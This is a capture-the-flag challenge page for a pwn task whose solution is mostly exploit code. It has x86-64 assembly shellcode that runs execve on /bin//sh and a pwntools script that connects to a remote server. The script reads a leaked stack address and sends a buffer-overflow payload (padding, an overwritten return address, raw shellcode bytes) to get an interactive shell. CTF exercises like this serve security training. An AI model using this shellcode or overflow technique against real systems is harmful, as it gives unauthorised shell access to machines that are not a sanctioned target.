 #### Goals
 * Try to find the flag

#### Server Address
 * nc pwn.sniperoj.com 20005

#### Solution
```asm
global _start
	_start:
		xor rdi, rdi
		xor rsi, rsi
		xor rdx, rdx
		xor rax, rax
		push rax
		; 68 73 2f 2f 6e 69 62 2f
		mov rbx, 68732f2f6e69622fH
		push rbx
		mov rdi, rsp
		mov al, 59
		syscall
```
```python
#!/usr/bin/env python

from pwn import *

#Io = process("./shellcode")
Io = remote("123.207.114.37", 30001)

Io.readline()
addr_data = Io.readline()
addr = int(addr_data.split("[")[1].split("]")[0][2:], 16)
Io.readline()

junk = "A" * 24
shellcode = "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
shellcode_addr = p64(addr + len(junk) + 8)
payload = junk + shellcode_addr + shellcode

Io.send(payload)

Io.interactive()
```

#### Writeups
 * [Offical Writeup]()
 * [Other Writeup]()

